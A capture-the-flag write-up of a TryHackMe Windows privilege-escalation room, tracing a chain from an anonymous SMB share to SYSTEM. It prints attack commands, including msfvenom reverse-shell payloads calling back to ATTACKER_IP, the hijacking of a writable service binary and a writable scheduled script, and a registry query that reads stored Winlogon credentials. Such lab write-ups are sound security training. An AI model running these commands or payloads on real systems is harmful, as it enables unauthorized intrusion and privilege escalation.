







# [Windows Jump — TryHackMe](https://tryhackme.com/room/windowsjump)
 
**Difficulty:** Medium
 
**Category:** Windows, Privilege Escalation
 
---
 
## Overview
 
Windows Jump is a privilege-escalation challenge in which you attack a Windows machine and work your way up to `SYSTEM`. You start as an anonymous user and progress through the following chain:
`guest->thmuser->notadmin->svcadmin->SYSTEM`
 
---
 
## 1. Reconnaissance
 
We start with the target machine's IP address and scan for open ports and listening services using `nmap`:
 
```bash
nmap -sS -sV -sC -p- -T5 <target> -o port_scan.txt
```
 
*See full output in [port_scan.txt](./evidence/command_outputs/port_scan.txt)*
 
A lot of noise, and I mean A LOT. Interestingly enough, there's an RDP server listening on port 3389. But we don't have any credentials to access it. I also noticed two ports that are flagged `http`; I tried to access them through the browser, but I got `404`. I got the same output when I tried to request them directly from the server using `curl`.
 
## 2. Initial Access
 
However, I focused on the familiar stuff first. Port 445 was open. I opened smbclient and connected to the server, which revealed a public share.
 
```bash
smbclient -L //server
```
 
*Full Shared Folders layout at [smb_shares.txt](./evidence/command_outputs/smb_shares.txt)*
 
I accessed the share; there was only one file there, called `welcome.txt`. I downloaded it locally and opened it. It had a username and password.
 


*See [welcome.txt](./evidence/command_outputs/welcome.txt)*
 
It has the username `thmuser`, which matched the start of the chain the challenge provides, so I used `xfreerdp` with the username and password to connect to the machine through `RDP`.
 
```bash
xfreerdp /v:<target_machine> /u:thmuser /p:[REDACTED]
```
 
## 3. Privilege Escalation `notadmin`
 
To be honest, I suffered a lot in this challenge, and it started right here. I first enumerated any cached creds with `cmdkey /list` — nothing found. I then checked services and scheduled tasks, but found nothing. I got literally nothing, after wasting a lot of time enumerating many different things. I remembered `winPEAS` and decided to run it. I already had it installed on my local machine, so I hosted a Python server and, using PowerShell, requested it and ran it locally. After drowning in `winPEAS` output, I flagged something interesting.
 


The tool retrieved credentials, but how? And from where? I believe I'd already checked the cached keys — where else could it be? Well, after some research, I found out there's something called the `Winlogon` registry key, which is also used to store and save credentials.
 
I manually checked the credentials with:
 
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
 
I opened cmd as `notadmin` with the provided creds, and I successfully got access.
 


## 4. Privilege Escalation `svcadmin`
 
From the name, I suspected it had to do with services, so I listed them and started reading through them. My first approach was actually inspecting each one individually. But then I got my mind back, started thinking properly, and first listed the names to see if any service had an interesting name.
 
```powershell
sc.exe query | findstr /i "SERVICE_NAME"
```
 


I found a service named `THMsvc`. Its binary was `C:\Windows\THMSVC\svc.exe`, which I had write access to. I created a payload locally and then transferred it to the target machine and started a listener on my attack machine.
 
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f exe-service -o svc.exe
```
 
After transferring it to the machine, I modified its access so anyone can run it.
 
```powershell
icacls svc.exe /grant Everyone:F
```
 
Then I moved it to `C:\Windows\THMSVC\`, overwriting the original binary. Soon enough, I got a connection as `svcadmin`.
 


## 5. Privilege Escalation `SYSTEM`
 
For this phase, I spent about 4 hours analysing automated tool output, hoping to find any hint. But first I started with enumerating the scheduled tasks.
 
```powershell
schtasks /query /fo list /v
```
 
The previous command listed all the scheduled tasks with their configurations so I could see their binaries. I manually checked each one of them, but nothing. There were no tasks I could take over or hijack. I then ran `winPEAS` again — this time I didn't just skim its output. I read it line by line and analysed it all. I kept analysing until I hit something.
 
The tool flagged 2 directories I have write access to:
 
- `C:\Windows\System32\Tasks`
- `C:\Windows\Tasks`

Honestly, I thought they'd be dead ends, since I couldn't even list the contents of `C:\Windows\System32\Tasks`, let alone create new files or new tasks in it — so the idea was dead to me. As for `C:\Windows\Tasks`, it was the first time I'd seen it. But I instantly assumed it would be the same — however, it was worth a shot. I was already stuck anyway. I listed it, which revealed a file called `cleanup.bat`.
 


I also had modification privileges over it. I suspected there must be a task running it — I was desperate at that moment, I needed something to believe in — so I went back to my local machine and created an `.exe` reverse-shell payload.
 
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f exe -o shell.exe
```
 
I transferred it to the target machine and edited its permissions so anyone can run it, then started a listener on my attack machine. I modified the script to call the executable payload, and waited.
 
Finally, I got a connection as `SYSTEM`.
 


At this point, I was furious, as the pattern was the same as `jump`. Things I didn't know I didn't know were the whole reason I'd been stuck for hours. But to be honest, I learned a lot through these 2 rooms.
 
## 7. Attack Chain
 
```
Reconnaissance
      ↓
Public SMB Share
      ↓
Initial Access
      ↓
WinLogon Saved Creds
      ↓
notadmin access
      ↓
Service Hijacking
      ↓
svcadmin access
      ↓
Writable script
      ↓
SYSTEM access
```
 
---
 
## 8. Takeaways
 
- **Unknown unknowns were the real bottleneck.** Most of the time I lost wasn't from a skill gap, it was from not knowing a mechanism existed at all — `Winlogon` AutoLogon credentials, legacy `.job`-based scheduled tasks living in `C:\Windows\Tasks`, and `WMIC`/alternate tooling for enumerating services. None of these are obscure once you know about them, but they're invisible until you hit a wall caused by not knowing.
- **Don't fully trust a "dead end."** I almost skipped `C:\Windows\Tasks` because I assumed it would behave the same as `C:\Windows\System32\Tasks`. It didn't. Testing instead of assuming cost me nothing and ended up being the whole solution.
- **Read automated tool output in full, don't just skim it.** Both `svcadmin` and `SYSTEM` only came after I stopped skimming `winPEAS` output and actually read it line by line. The signal was there the whole time, buried in noise.
- **Triage recon noise instead of chasing every lead equally.** With a lot of open ports and two dead-end HTTP services, the win came from falling back to what I actually knew well (SMB) first.
- **Legacy mechanisms are still fair game.** `C:\Windows\Tasks` (Task Scheduler 1.0) isn't covered by `schtasks`, which only shows modern XML-based tasks. Worth checking both from now on.

---
 
## Flags
 
Flags obtained during the challenge have been redacted from this write-up.
 
> TryHackMe flags and sensitive challenge credentials are intentionally omitted.
 